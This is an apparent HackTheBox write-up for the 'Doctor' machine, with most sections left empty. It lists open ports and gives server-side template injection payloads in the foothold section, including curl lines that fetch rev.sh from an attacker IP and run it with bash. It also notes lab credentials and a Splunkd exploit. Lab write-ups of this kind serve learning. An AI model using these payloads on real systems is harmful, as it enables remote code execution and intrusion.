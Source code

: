 Name & IP Address of Machine:
> # DOCTOR : `10.10.10.209`
**Table Of Contents:**
<!-- TOC -->

- [Synopsis](#synopsis)
- [Enumeration](#enumeration)
    - [Opened Ports:](#opened-ports)
- [FootHold](#foothold)
- [- Splunkd exploit using pysplunkdremote.py using creds of shaun.](#--splunkd-exploit-using-pysplunkdremotepy-using-creds-of-shaun)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

## Synopsis
  
---

## Enumeration

---
#### Opened Ports: 
- [ ] 22 (SSH)
- [ ] 80 (Apache HTTP)
- [ ] 8089 (Splunkd)

---

## FootHold
- On port 80, a simple HTML blog was there, which reveals the hostname `doctors.htb`.
- SSTI on doctors.htb
```payload
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
{{config.__class__.__init__.__globals__['os'].popen('curl http://10.10.14.8:8000/rev.sh -o /dev/shm/rev.sh').read()}}
{{config.__class__.__init__.__globals__['os'].popen('bash /dev/shm/rev.sh').read()}}
```
- User discoverd: `shaun:Guitar123`
`User web is groups of adm that means we can read logs` Interesting!!! `- /reset_password?email=Guitar123`
- Splunkd exploit using pysplunkdremote.py using creds of shaun.
---

## Lateral Movement

---

## Privilege Escalation

---